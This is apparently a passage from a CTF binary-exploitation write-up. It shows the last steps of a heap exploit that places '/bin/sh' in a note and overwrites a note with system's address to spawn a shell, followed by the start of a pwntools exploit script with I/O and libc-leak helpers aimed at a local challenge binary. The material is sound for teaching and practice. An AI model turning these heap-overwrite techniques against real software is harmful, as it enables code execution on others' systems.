 ```plain
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
```

[![](assets/1701606615-240ace20a462468d5c9ee56c05563e0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213121-440d4648-83bb-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')

add_idx = 1
delete_idx = 2
show_idx = 3
```